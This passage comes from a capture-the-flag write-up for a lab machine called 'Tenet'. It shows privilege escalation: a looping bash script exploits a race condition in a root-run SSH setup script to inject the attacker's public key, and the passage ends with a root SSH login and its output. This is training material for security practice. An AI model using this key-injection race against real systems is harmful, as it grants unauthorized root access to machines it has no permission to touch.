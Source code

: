 Then, let's create the bash script.

```
#!/bin/bash

while true; do
    cat /tmp/id_rsa.pub > "$(ls | grep ssh)"
done
```

and make it executable with `chmod +x script`.

The script will run with an infinite loop and try to insert our public key to the file whose name starts with `ssh`, which is the one created by enableSSH.sh.

Note that we need double quotes around `$(ls | grep ssh)`, otherwise, we get [ambiguous redirect error](https://stackoverflow.com/questions/2462385/getting-an-ambiguous-redirect-error).

Now, run the script with `./script` in `/tmp`.

Login as `neil` in another terminal window and execute `sudo /usr/local/bin/enableSSH.sh`. Note that we need to run this command multiple times to successfully exploit the race condition vulnerability.

### Getting the Root Flag

Finally, SSH into the remote machine as root with `ssh -i id_rsa root@tenet.htb` from your local machine, inside the directory where you store `id_rsa` private key file that we created earlier with `ssh-keygen`.

```
$ ssh -i id_rsa root@tenet.htb
Welcome to Ubuntu 18.04.5 LTS (GNU/Linux 4.15.0-129-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

  System information as of Wed Jun 16 06:43:50 UTC 2021

  System load:  1.0                Processes:             177
  Usage of /:   15.1% of 22.51GB   Users logged in:       1
  Memory usage: 10%                IP address for ens160: 10.10.10.223
  Swap usage:   0%


 * Canonical Livepatch is available for installation.
   - Reduce system reboots and improve kernel security. Activate at:
     https://ubuntu.com/livepatch

53 packages can be updated.
31 of these updates are security updates.
To see these additional updates run: apt list --upgradable

Failed to connect to https://changelogs.ubuntu.com/meta-release-lts. Check your Internet connection or proxy settings


Last login: Thu Feb 11 14:37:46 2021
root@tenet:~#
```

![root flag](images/8.png)
